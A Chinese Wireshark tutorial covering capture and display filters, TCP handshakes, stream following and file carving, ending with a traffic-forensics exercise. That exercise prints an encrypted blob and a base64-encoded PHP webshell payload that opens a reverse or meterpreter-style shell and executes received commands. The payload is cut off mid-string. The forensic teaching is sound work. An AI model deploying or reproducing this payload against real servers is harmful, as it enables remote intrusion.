

# 网络流量相关工具

## 一 网络流量分析软件

### 1 wireshark

#### 1.1 wireshark及启动

wireshark:（前称Ethereal）它是非常流行的网络封包分析软件，功能十分强大。可以截取各种网络封包，显示网络封包的详细信息。使用wireshark的人必须了解网络协议，否则就看不懂wireshark了。
为了安全考虑，wireshark只能查看封包，而不能修改封包的内容，或者发送封包。
wireshark能获取HTTP，也能获取HTTPS，但是不能解密HTTPS，所以wireshark看不懂HTTPS中的内容，总结，如果是处理HTTP,HTTPS 还是用Fiddler, 其他协议比如TCP,UDP 就用wireshark.

直接在命令行启动:wireshark，也可在菜单中直接启动。


在选择了要监听的网卡后，即可抓取网络的流量包


#### 1.2 wireshark的基础使用

默认的情况下，wireshark会抓取所有的流量，为此进行针对性的提取数据包，可以简化我们的工作量。

##### 1.2.1 流量过滤的A方案--使用捕获过滤器

在启动页面中，选择绿色图标，选择"管理捕获过滤器"


默认软件提供了一些模板，可以选择+自定义规则，规则模式可采用照猫画虎的方式进行填入


例如写入一条规则：只采集主机192.168.0.1的80端口的通讯流量。

```
host 192.168.0.1 and port 80
```


随后启动对应的捕获过滤规则即可。


##### 1.2.2 流量过滤的B方案--使用显示过滤器

在工具启动抓包后，选择蓝色的图标，选择“管理显示过滤器”


同样可以照猫画虎的建立规则。

```
###所有过滤方式皆可使用逻辑运算符：and/or
ip.src==192.168.0.250（只显示源地址为192.168.0.250的数据包）
ip.dst==192.168.0.250 （只显示目的地址为192.168.0.250的数据包）
tcp.srcport==80   (只显示tcp的源端口为80端口的数据包)  
tcp.dstport==80   (只显示tcp的目的端口为80端口的数据包)
http.request.method=="GET" （只显示http中的get请求）
http.request.uri contains login （只显示url中包含login的请求）
http.response.code ==200 （显示200状态码的返回包）
http contains "admin"  （搜索关键字admin）
http.request.method=="POST" && http contains "admin"  （显示POST请求，并且包含admin关键字的数据包）
http.response.code ==200 && http contains "admin"     （显示200状态码的返回包，并且带有admin关键字的）
```

随后建立好规则后，使用即可。


##### 1.2.3 TCP的三次握手

一个完整的tcp三次握手过程，各字段在TCP三次握手中的做用：

```
SYN：用于创建链接。
ACK：用于肯定收到了请求。
seq：发送本身的数据。
ack：发送接收到的对方的数据。
```

在我们抓到的数据包中，1-4号数据包实际上就是个tcp三次握手及正式传递数据的过程。




数据包列表：列表的面板中显示：编号，时间戳，源地址，目标地址，协议，长度，以及数据包信息。


##### 1.2.4 流量包的分析

在单个数据包的页面中，


```
Frame:   数据包整体的一个描述
Ethernet II: 链路层详细信息，主要的是双方的mac地址
Internet Protocol Version 4: 网络层详细信息，主要的是双方的IP地址
Transmission Control Protocol:  传输层的详细信息，主要的是双方的端口号
Hypertext Transfer Protocol:  应用层的详细信息，此处是HTTP协议（不局限于http，tcp与udp传输的数据也会有）
```

Transmission Control Protocol中同样可以通过sequence/Ack关注下握手包的状态。


Hypertext Transfer Protocol:  应用层的信息，此处是HTTP协议


##### 1.2.5 使用追踪流的功能

我们的一个完整的数据流一般都是由很多个包组成的，所以当我们想查看某条数据包对应的数据流的话。可以选中数据，右键选择追踪流，可以看到有几种流，选中的数据包属于什么流就选择什么流，此处选中的是http数据包。


如果数据包内容较多，可使用查找的功能搜索对应的关键字。


#### 1.3 wireshark的实战

##### 1.3.1 通过wireshark提取流量包中的文件

假如有一天，我们接到了举报信，派大星是一名间谍，经常给国外情报组织提供高水平的情报。然后咱们就偷偷摸摸的把他们家网线给噶了：）

从而做到了监听派大星的上网流量。我们通过这个模拟的案例进行实验。

###### 1.3.1.1制作一个敏感的文件

我们在一个文档中，写入一些内容后，压缩成压缩包即可。


###### 1.3.1.2 启动wireshark抓包并上传文件

抓取通过dvwa的upload上传压缩包的流量(所抓到的流量为分享的pcap包)

还原攻击者的顺序


###### 1.3.1.3 提取文件

通过追踪HTTP数据流不难判定数据存在于下图箭头位置。


将show data as 调整为原始数据后，通过另存为保存到本地。


通过ghex编辑文件(kali中如果没有直接apt-get install ghex即可)


找到1F 8B开头的字段，选择出来对应的数据段，复制-->新建文件-->粘贴-->save as (这步找内容比较繁琐)


随后即可提取出tar.gz进行查看。


##### 1.3.2 通过wireshark溯源分析

  在下面的攻击流量中，尝试分析攻击者的操作？（分享在工具包中的attack.pcap）


```
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
```

```
http://tools.bugscaner.com/cryptoaes/
assert|eval(base64_decode('DQpAZXJyb3JfcmVwb3J0aW5nKDApOw0KQHNldF90aW1lX2xpbWl0KDApOw0KZnVuY3Rpb24gbWFpbigkdHlwZSwkaXAsJHBvcnQpDQp7DQogaWYgKCR0eXBlPT0ic2hlbGwiKQ0KIHsNCiBjb21tb24oJGlwLCRwb3J0KTsNCiB9DQogZWxzZSBpZiAoJHR5cGU9Im1ldGVyIikNCiB7DQogIAltZXRlcigkaXAsJHBvcnQpOw0KIH0NCg0KfQ0KDQpmdW5jdGlvbiBtZXRlcigkaXAsJHBvcnQpDQp7DQogZXJyb3JfcmVwb3J0aW5nKDApO2lmICgoJGYgPSAnc3RyZWFtX3NvY2tldF9jbGllbnQnKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZigidGNwOi8veyRpcH06eyRwb3J0fSIpOyAkc190eXBlID0gJ3N0cmVhbSc7IH0gaWYgKCEkcyAmJiAoJGYgPSAnZnNvY2tvcGVuJykgJiYgaXNfY2FsbGFibGUoJGYpKSB7ICRzID0gJGYoJGlwLCAkcG9ydCk7ICRzX3R5cGUgPSAnc3RyZWFtJzsgfSBpZiAoISRzICYmICgkZiA9ICdzb2NrZXRfY3JlYXRlJykgJiYgaXNfY2FsbGFibGUoJGYpKSB7ICRzID0gJGYoQUZfSU5FVCwgU09DS19TVFJFQU0sIFNPTF9UQ1ApOyAkcmVzID0gQHNvY2tldF9jb25uZWN0KCRzLCAkaXAsICRwb3J0KTsgaWYgKCEkcmVzKSB7IGRpZSgpOyB9ICRzX3R5cGUgPSAnc29ja2V0JzsgfSBpZiAoISRzX3R5cGUpIHsgZGllKCdubyBzb2NrZXQgZnVuY3MnKTsgfSBpZiAoISRzKSB7IGRpZSgnbm8gc29ja2V0Jyk7IH0gc3dpdGNoICgkc190eXBlKSB7IGNhc2UgJ3N0cmVhbSc6ICRsZW4gPSBmcmVhZCgkcywgNCk7IGJyZWFrOyBjYXNlICdzb2NrZXQnOiAkbGVuID0gc29ja2V0X3JlYWQoJHMsIDQpOyBicmVhazsgfSBpZiAoISRsZW4pIHsgZGllKCk7IH0gJGEgPSB1bnBhY2soIk5sZW4iLCAkbGVuKTsgJGxlbiA9ICRhWydsZW4nXTsgJGIgPSAnJzsgd2hpbGUgKHN0cmxlbigkYikgPCAkbGVuKSB7IHN3aXRjaCAoJHNfdHlwZSkgeyBjYXNlICdzdHJlYW0nOiAkYiAuPSBmcmVhZCgkcywgJGxlbi1zdHJsZW4oJGIpKTsgYnJlYWs7IGNhc2UgJ3NvY2tldCc6ICRiIC49IHNvY2tldF9yZWFkKCRzLCAkbGVuLXN0cmxlbigkYikpOyBicmVhazsgfSB9ICRHTE9CQUxTWydtc2dzb2NrJ10gPSAkczsgJEdMT0JBTFNbJ21zZ3NvY2tfdHlwZSddID0gJHNfdHlwZTsgaWYgKGV4dGVuc2lvbl9sb2FkZWQoJ3N1aG9zaW4nKSAmJiBpbmlfZ2V0KCdzdWhvc2luLmV4ZWN1dG9yLmRpc2FibGVfZXZhbCcpKSB7ICRzdWhvc2luX2J5cGFzcz1jcmVhdGVfZnVuY3Rpb24oJycsICRiKTsgJHN1aG9zaW5fYnlwYXNzKCk7IH0gZWxzZSB7IGV2YWwoJGIpOyB9IGRpZSgpOw0KfQ0KDQpmdW5jdGlvbiBjb21tb24oJGlwLCRwb3J0KQ0Kew0KQGVycm9yX3JlcG9ydGluZygwKTsNCiAgICAgIEBzZXRfdGltZV9saW1pdCgwKTsgQGlnbm9yZV91c2VyX2Fib3J0KDEpOyBAaW5pX3NldCgnbWF4X2V4ZWN1dGlvbl90aW1lJywwKTsNCiAgICAgICRkaXM9QGluaV9nZXQoJ2Rpc2FibGVfZnVuY3Rpb25zJyk7DQogICAgICBpZighZW1wdHkoJGRpcykpew0KICAgICAgICAkZGlzPXByZWdfcmVwbGFjZSgnL1ssIF0rLycsICcsJywgJGRpcyk7DQogICAgICAgICRkaXM9ZXhwbG9kZSgnLCcsICRkaXMpOw0KICAgICAgICAkZGlzPWFycmF5X21hcCgndHJpbScsICRkaXMpOw0KICAgICAgfWVsc2V7DQogICAgICAgICRkaXM9YXJyYXkoKTsNCiAgICAgIH0NCiAgICAgIA0KICAgICRpcGFkZHI9JGlwOw0KDQogICAgaWYoIWZ1bmN0aW9uX2V4aXN0cygnRllPUWFLaXlxUU5mRE8nKSl7DQogICAgICBmdW5jdGlvbiBGWU9RYUtpeXFRTmZETygkYyl7DQogICAgICAgIGdsb2JhbCAkZGlzOw0KICAgICAgICANCiAgICAgIGlmIChGQUxTRSAhPT0gc3RycG9zKHN0cnRvbG93ZXIoUEhQX09TKSwgJ3dpbicgKSkgew0KICAgICAgICAkYz0kYy4iIDI+JjFcbiI7DQogICAgICB9DQogICAgICAkcHNDS3NUSD0naXNfY2FsbGFibGUnOw0KICAgICAgJFB3UnJ0PSdpbl9hcnJheSc7DQogICAgICANCiAgICAgIGlmKCRwc0NLc1RIKCdwb3BlbicpYW5kISRQd1JydCgncG9wZW4nLCRkaXMpKXsNCiAgICAgICAgJGZwPXBvcGVuKCRjLCdyJyk7DQogICAgICAgICRvPU5VTEw7DQogICAgICAgIGlmKGlzX3Jlc291cmNlKCRmcCkpew0KICAgICAgICAgIHdoaWxlKCFmZW9mKCRmcCkpew0KICAgICAgICAgICAgJG8uPWZyZWFkKCRmcCwxMDI0KTsNCiAgICAgICAgICB9DQogICAgICAgIH0NCiAgICAgICAgQHBjbG9zZSgkZnApOw0KICAgICAgfWVsc2UNCiAgICAgIGlmKCRwc0NLc1RIKCdleGVjJylhbmQhJFB3UnJ0KCdleGVjJywkZGlzKSl7DQogICAgICAgICRvPWFycmF5KCk7DQogICAgICAgIGV4ZWMoJGMsJG8pOw0KICAgICAgICAkbz1qb2luKGNocigxMCksJG8pLmNocigxMCk7DQogICAgICB9ZWxzZQ0KICAgICAgaWYoJHBzQ0tzVEgoJ3Bhc3N0aHJ1JylhbmQhJFB3UnJ0KCdwYXNzdGhydScsJGRpcykpew0KICAgICAgICBvYl9zdGFydCgpOw0KICAgICAgICBwYXNzdGhydSgkYyk7DQogICAgICAgICRvPW9iX2dldF9jb250ZW50cygpOw0KICAgICAgICBvYl9lbmRfY2xlYW4oKTsNCiAgICAgIH1lbHNlDQogICAgICBpZigkcHNDS3NUSCgncHJvY19vcGVuJylhbmQhJFB3UnJ0KCdwcm9jX29wZW4nLCRkaXMpKXsNCiAgICAgICAgJGhhbmRsZT1wcm9jX29wZW4oJGMsYXJyYXkoYXJyYXkoJ3BpcGUnLCdyJyksYXJyYXkoJ3BpcGUnLCd3JyksYXJyYXkoJ3BpcGUnLCd3JykpLCRwaXBlcyk7DQogICAgICAgICRvPU5VTEw7DQogICAgICAgIHdoaWxlKCFmZW9mKCRwaXBlc1sxXSkpew0KICAgICAgICAgICRvLj1mcmVhZCgkcGlwZXNbMV0sMTAyNCk7DQogICAgICAgIH0NCiAgICAgICAgQHByb2NfY2xvc2UoJGhhbmRsZSk7DQogICAgICB9ZWxzZQ0KICAgICAgaWYoJHBzQ0tzVEgoJ3NoZWxsX2V4ZWMnKWFuZCEkUHdScnQoJ3NoZWxsX2V4ZWMnLCRkaXMpKXsNCiAgICAgICAgJG89c2hlbGxfZXhlYygkYyk7DQogICAgICB9ZWxzZQ0KICAgICAgaWYoJHBzQ0tzVEgoJ3N5c3RlbScpYW5kISRQd1JydCgnc3lzdGVtJywkZGlzKSl7DQogICAgICAgIG9iX3N0YXJ0KCk7DQogICAgICAgIHN5c3RlbSgkYyk7DQogICAgICAgICRvPW9iX2dldF9jb250ZW50cygpOw0KICAgICAgICBvYl9lbmRfY2xlYW4oKTsNCiAgICAgIH1lbHNlDQogICAgICB7DQogICAgICAgICRvPTA7DQogICAgICB9DQogICAgDQogICAgICAgIHJldHVybiAkbzsNCiAgICAgIH0NCiAgICB9DQogICAgJG5vZnVuY3M9J25vIGV4ZWMgZnVuY3Rpb25zJzsNCiAgICBpZihpc19jYWxsYWJsZSgnZnNvY2tvcGVuJylhbmQhaW5fYXJyYXkoJ2Zzb2Nrb3BlbicsJGRpcykpew0KICAgICAgJHM9QGZzb2Nrb3BlbigidGNwOi8vIi4kaXAsJHBvcnQpOw0KICAgICAgd2hpbGUoJGM9ZnJlYWQoJHMsMjA0OCkpew0KICAgICAgICAkb3V0ID0gJyc7DQogICAgICAgIGlmKHN1YnN0cigkYywwLDMpID09ICdjZCAnKXsNCiAgICAgICAgICBjaGRpcihzdWJzdHIoJGMsMywtMSkpOw0KICAgICAgICB9IGVsc2UgaWYgKHN1YnN0cigkYywwLDQpID09ICdxdWl0JyB8fCBzdWJzdHIoJGMsMCw0KSA9PSAnZXhpdCcpIHsNCiAgICAgICAgICBicmVhazsNCiAgICAgICAgfWVsc2V7DQogICAgICAgICAgJG91dD1GWU9RYUtpeXFRTmZETyhzdWJzdHIoJGMsMCwtMSkpOw0KICAgICAgICAgIGlmKCRvdXQ9PT1mYWxzZSl7DQogICAgICAgICAgICBmd3JpdGUoJHMsJG5vZnVuY3MpOw0KICAgICAgICAgICAgYnJlYWs7DQogICAgICAgICAgfQ0KICAgICAgICB9DQogICAgICAgIGZ3cml0ZSgkcywkb3V0KTsNCiAgICAgIH0NCiAgICAgIGZjbG9zZSgkcyk7DQogICAgfWVsc2V7DQogICAgICAkcz1Ac29ja2V0X2NyZWF0ZShBRl9JTkVULFNPQ0tfU1RSRUFNLFNPTF9UQ1ApOw0KICAgICAgQHNvY2tldF9jb25uZWN0KCRzLCRpcGFkZHIsJHBvcnQpOw0KICAgICAgQHNvY2tldF93cml0ZSgkcywic29ja2V0X2NyZWF0ZSIpOw0KICAgICAgd2hpbGUoJGM9QHNvY2tldF9yZWFkKCRzLDIwNDgpKXsNCiAgICAgICAgJG91dCA9ICcnOw0KICAgICAgICBpZihzdWJzdHIoJGMsMCwzKSA9PSAnY2QgJyl7DQogICAgICAgICAgY2hkaXIoc3Vic3RyKCRjLDMsLTEpKTsNCiAgICAgICAgfSBlbHNlIGlmIChzdWJzdHIoJGMsMCw0KSA9PSAncXVpdCcgfHwgc3Vic3RyKCRjLD